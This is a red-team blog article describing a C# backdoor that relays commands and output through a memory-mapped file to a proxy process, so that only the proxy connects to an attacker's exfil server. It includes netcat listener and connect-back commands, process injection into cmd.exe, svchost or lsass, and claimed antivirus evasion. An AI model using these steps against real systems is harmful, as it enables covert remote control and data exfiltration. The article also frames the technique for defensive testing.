







Memory Mapping File & Connection in-memory between Backdoor & Proxy Process
Memory Mapping File & Connection in-memory between Backdoor & Proxy Process
in this article i want to talk about C# Memory File Mapping which is really simple and good way for create Connection between Processes, in this case i want to talk about how an attacker can use this Method for bypass your Defensive things like AV etc.
in this case an attacker can use this Method for Connection between backdoor/shell code to some Proxy tool in your system, very simple a backdoor can use another Process as Proxy in your system for connection to Attacker Server (exfil-server), this means your backdoor will not create Network Connection "Directly" to Attacker Server so in your Network Connection Monitor Tools like tcpview you can not see any Connection by Backdoor tool but you can see Proxy Tool Connections only which the proxy tool is not backdoor/malware code, so we have something like "Picture1"
Memory Mapped File Method Steps:
Step0: Backdoor (NativePayload_MPAgent.exe) executed & in this time this Backdoor will create Memory File Mapp "In-Memory" also this backdoor will scan this Memory File Map for detecting New Commands which will send by Proxy tool in memory in that location of RAM...
Step1: NativePayload_MP.exe & NativePayload_HTTP.sh (exfil-server side tool) executed, in this step Proxy Tool (NativePayload_MP) will create HTTP Connection to Exfil Server (NativePayload_HTTP.sh) tool for Download Commands from Server & injecting them into system Memory or (Memory File Map)
Step2: int this step our command downloaded from Exfil-server by NativePayload_MP.exe also this command injected to Memory, which means MP Process for talking to MPAgent Process will use this method and these both Processes only talking together by Reading/Writing in Memory Map File etc. in this step out command wrote by MP tool in Memory Map File with Message "NativePayload_MPAgent.cs.cmd=>whoami" this means MPAgent should read this and execute this command locally and resend command output here again by Base64 encoding ... but before this MPAgents sent this message "[clientMapper].[NativePayload_MPAgent]::PID:6368" to memory Map file which means this Backdoor with this PID is ready to read/get cmd by "@getcmd=" so this information read by MP or proxy tool as you can see in picture
Step3: this command "whoami" read from memory & executed by Backdoor (NativePayload_MPAgent.exe) & in this time this Backdoor will create cmd output by base64 encoding and send output bytes to Memory as response to/for command,"important point" is this backdoor will not create any Network Connection etc so all cmd command will execute by this backdoor and all outputs will send to Memory Map File "only" so we don't have network connection by backdoor.

Picture 1: Memory Mapping by "NativePayload_MP" and Backdoor "NativePayload_MPAgent" Step by step
Step4: in this step our output downloaded from Memory Map File which Wrote before this by MPAgent in memory and now is time to decoding by UTF8.Getstring() also show this result of command by MP or Proxy tool which you can see in the "Picture 1"
Step5: in this step you can see Result of command by MP Tool
Step6: in this finally this result will send to exfil-server in this case by HTTP Traffic , and again i want to say this our backdoor worked without make network connection directly to exfil-server and everything performed by MP or Proxy tool so in your "Tpview.exe" tool you only can see connection between Proxy tool and Exfil-server (not the backdoor) so if you think with network connection list & their own process PIDs you can find Backdoor/Malware code behind these network traffic you are wrong sometimes....
in the next "Picture2" you can see codes for Step2 by NativePayload_MP.exe

Picture 2: Mapper/Proxy C# code, Reading/Writing in memory step by step
in the next "Picture3 & 4" you can see this method with "netcat" by "NativePayload_MP2.exe"
step1: [linux:192.168.56.1]: nc -lp 443
step2: [win:192.168.56.107]: NativePayload_MPAgent.exe
step3: [win:192.168.56.107]: NativePayload_MP2.exe 192.168.56.1 443

Picture 3: "NativePayload_MP2" + netcat

Picture 4: "NativePayload_MP2" + netcat
in the next "Picture5 & 6" you can see this method with "old version" of NativePayload_MP, which in this code Connection between Backdoor and Mapper/Proxy tool Tested in-memory very well
step1:[old version-backdoor] NativePayload_MPAgent.exe
step2:[old version-Mapper/Proxy] NativePayload_MP.exe

Picture 5: old version "NativePayload_MP" + NativePayload_MPAgent

Picture 6: old version "NativePayload_MP" + NativePayload_MPAgent
NativePayload_CSI & integration "Code/dll Injection Technique" with "NativePayload_MP" + "NativePayload_MPAgent"
finally in the next "Picture7 & 8" you can see this method with Code/Dll Injection method, which in this attack our Backdoor & Mapper/Proxy tool both can injected to Windows Trusted Processes like (cmd.exe or svchost/lsass etc) in-memory and in these "Pictures 7 & 8" you can see we have two cmd.exe Process which are our backdoor (cmd.exe:6292) and Proxy (cmd.exe:2284) tool also you can see ping command executed by Backdoor (cmd.exe:6292) but in Tcpview we have Process Name & PID (cmd.exe:2284) for Mapper/Proxy Tool for TCP Connection to exfil-server via http traffic which is not our Backdoor so again we can not see in Tcpview PIDs for backdoor process... as you can see in this pictures these Anti-viruses (Windows Defender/Trend-Micro) bypassed very well.

Picture 7: NativePayload_CSI integration with "NativePayload_MP" + NativePayload_MPAgent
in this "Picture 8" you can see again "whoami" command executed but in tcpview we only have Proxy Tool Connection, which our Shell/commands Result Payload Sent by this Proxy tool to the Exfil-server via HTTP Traffic on dest-Port 80

Picture 8: NativePayload_CSI integration with "NativePayload_MP" + NativePayload_MPAgent
Note: "always in the first step you should run [NativePayload_MPAgent.exe], because our MemoryMappedFile will Create with this backdoor in memory then in the next Steps [NativePayload_MPx.exe] will Open/read/write Date in this Memory Map File"
"NativePayload_MP.cs" (old version) code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only [Pictures 5,6]
"NativePayload_MP1.cs" code is Mapper/Proxy tool for working with NativePayload_HTTP.sh as web Exfil-server tool [Picture 1]
"NativePayload_MP2.cs" code is Mapper/Proxy tool for working with nc (Netcat) [Pictures 3,4]
"NativePayload_MPAgent.cs" code is our backdoor tool
Note: all codes are here https://github.com/damonmohammadbagher/NativePayload_MP
at a glance: as defender (blue teams) you should work with Monitor tools but you should know this important thing which is "those Process list in your Tcp/Network Monitor tools always are not your Malware/backdoor Process, sometimes they are only a intermediate code/tool or Proxy tool or something like that which you saw in this Method & because these Backdoor & proxy tool have/had connection in memory sometimes we can not see these relations very well & in the "Pictures 7 , 8" you saw with Thread/Code Injection all things going behind Windows Trusted Processes like "lsass" or "cmd.exe" in this time everything seems is ok but not really ok ;) also this method is good way to bypssing some Monitoring tools and some Anti-viruses/EDRs as you can see this Backdoor/shell code will not create network connection so "behavior was changed", as Pentester/Red-Teamer you should test this things or something like this with your own code to test your Defensive Tools etc anyway that was fun and i think this will be useful method for you too (i hope...) ¯\_(ツ)_/¯